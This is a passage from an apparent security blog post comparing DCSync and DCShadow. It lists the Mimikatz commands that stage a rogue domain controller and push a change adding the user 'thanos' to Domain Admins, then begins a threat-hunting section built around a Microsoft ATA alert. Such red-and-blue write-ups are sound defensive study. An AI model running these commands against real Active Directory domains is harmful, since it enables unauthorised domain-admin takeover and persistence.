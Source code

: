 <p><strong><i> Open Mimikatz Console </i></strong></p>
<ul>
<li><p><strong>!+</strong> (Registers and starts a service with SYSTEM level privileges)</p></li>

<li><p><strong>!processtoken</strong> (Gives the System Token to Mimikatz so it has the appropriate privileges to run the following commands)</p></li>

<li><p><strong>lsadump::dcshadow /object:thanos /attribute:primaryGroupID /value:512</strong> (This will will use the Security Identifier (512) of the DA Group to inject thanos into the DA Group.</p></li>
</ul>
<p><strong><i> Open a second Mimikatz Console </i></strong></p>
<ul>
<li><p><strong>lsadump::dcshadow /push</strong> (Pushes the changes we made with the rogue Domain Controller (us) to the actual Domain Controller).</p></li>
</ul>
<p>Thanos has now been injected into the DA Group, this can be verified by:</p>
<ul>
<li><p><strong>domain group “domain admins” /domain</strong></p></li>
</ul>


![thanos](/images/DCSync-vs-DCShadow/thanos-gif.gif)

**Note** You could have two seperate Mimikatz Consoles opened at the same time to run this attack. Commands are the same, but before the <i> lsadump::dcshadow /push </i> you would need to run <i> privilege::debug </i> to give the subprocess SYSTEM level privileges.

Onto the Hunt (the best part):
---
<p><strong><i>DCSync:</i></strong></p>
<p>In order to hunt, creating a hypothesis is key. This will help prevent analysis paralysis - Over analyzing an abundance of logs.</p>
<p>During this hunt, I will show how the indicator of compromises (IOC’s) for DCSync, will help us discover and hunt the defense evasion of DCShadow. Keep in mind the IOC’s for DCShadow will stay the same regardless if the adversary did attempt a DCSync beforehand or if they used a different type of technique to collect a DA’s credentials.</p>
<p>To put this into perspective, say we are a Detection/Hunt Team and we got this alert from Microsoft ATA:</p>

![DCSync-DCShadow](/images/DCSync-vs-DCShadow/ATA.png)
